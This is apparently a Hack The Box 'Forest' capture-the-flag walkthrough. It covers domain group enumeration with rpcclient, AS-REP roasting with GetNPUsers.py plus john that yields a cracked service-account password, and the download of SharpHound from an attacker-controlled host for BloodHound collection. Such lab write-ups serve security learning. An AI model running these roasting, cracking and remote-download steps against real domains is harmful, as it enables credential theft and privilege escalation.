 ```
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
rpcclient $> 

```

# user shell

Roasting AS-REPs

This is a kerbaroasting attack that target accounts that have pre-authentication disabled.

    if you can enumerate any accounts in a Windows domain that don’t require Kerberos preauthentication, you can now easily request a piece of encrypted information for said accounts and efficiently crack the material offline, revealing the user’s password.

A detailed writeup of this attack can be found here

So essentially if a user account has DONT_REQ_PREAUTH then we can request a TGT from the DC for the user and then crack it offline.

Put all the usernames we enumerated in to a file and use GetNPUsers.py to check all users.

GetNPUsers.py htb.local/ -no-pass -usersfile users -dc-ip 10.10.10.161

cracking using john

kali@kali:~/Desktop/htb/forest$ john hash.txt --show
$krb5asrep$23$svc-alfresco@HTB.LOCAL:s3rvice

1 password hash cracked, 0 left

# privilege escalation sharphound

Privilege Escalation

After getting a shell, I tried enumerating for any exploit vectors. I could find none. After some hints from writeups, I knew that blooudhound is the way to go.

    Download the SharpHound.ps1 file to the windows machine.

     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iwr -uri "http://10.10.14.21:8000/SharpHound.ps1" -outfile "sharp.ps
     1"
     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . ./sharp.ps1
     *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All
